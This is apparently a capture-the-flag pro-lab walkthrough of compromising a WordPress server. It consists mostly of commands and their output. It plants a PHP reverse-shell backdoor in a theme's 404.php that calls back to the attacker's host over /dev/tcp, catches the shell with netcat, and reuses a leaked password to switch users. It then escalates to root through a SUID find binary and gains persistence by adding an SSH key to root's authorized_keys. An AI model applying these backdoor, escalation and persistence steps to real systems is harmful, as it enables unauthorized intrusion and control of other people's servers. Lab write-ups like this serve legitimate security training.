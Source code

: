 # Exploit
## Login to Wordpress

| Url   | http://10.10.110.100:65000/wordpress/wp-admin/users.php |
| ----- | ------------------------------------------------------- |
| Creds | james:Toyota                                            |
### Upload Backdoor
1. Open WP Theme Editor: http://10.10.110.100:65000/wordpress/wp-admin/theme-editor.php
2. Select the Twenty Nineteen 404.php: http://10.10.110.100:65000/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
3. Insert: <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'"); ?> to the TwentyTwenty 404.php
4. then listening port with `nc -lnvp 9001`
5. `firefox http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php`
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.110.100] 44678
bash: cannot set terminal process group (1094): Inappropriate ioctl for device
bash: no job control in this shell
<w/html/wordpress/wp-content/themes/twentynineteen$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Interactive Shell
```
which python3
python3 -c 'import pty;pty.spawn("/bin/sh")'
```
```
$ cd /home
$ ls -la	// james; balthazar
```
```
$ su james
su james
Password: Toyota

james@DANTE-WEB-NIX01:/home$ cat james/flag.txt
cat james/flag.txt
DANTE{j4m3s_NEEd5_a_p455w0rd_M4n4ger!}
james@DANTE-WEB-NIX01:/home$ 
```

# Privilege Escalation
## Find SUID misconfiguration
```
james@DANTE-WEB-NIX01:/home$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-5.0# id
id
uid=1001(james) gid=1001(james) euid=0(root) groups=1001(james)

```
```
bash-5.0# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.1.100  netmask 255.255.255.0  broadcast 172.16.1.255
        inet6 fe80::250:56ff:feb9:7a74  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:7a:74  txqueuelen 1000  (Ethernet)
        RX packets 484692  bytes 92949307 (92.9 MB)
        RX errors 0  dropped 68  overruns 0  frame 0
        TX packets 389672  bytes 346157599 (346.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4815  bytes 442456 (442.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4815  bytes 442456 (442.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Add SSH Connection
**Generate SSH Key in HOST**
```
$ ssh-keygen -b 4096
$ cat ~/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEEljGcqu6LAIDeTnlO/+wDg+mB9e+uu2uuxCka/Psu kali@kali
```

**Add Public Key to TARGET**
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEEljGcqu6LAIDeTnlO/+wDg+mB9e+uu2uuxCka/Psu" >> /root/.ssh/authorized_keys
<g+mB9e+uu2uuxCka/Psu" >> /root/.ssh/authorized_keys
```

**Then connect to Target**
```
$ ssh -i ~/.ssh/id_ed25519 root@10.10.110.100
$ ssh -i ~/.ssh/id_ed25519 -D 1080 root@10.10.110.100
```
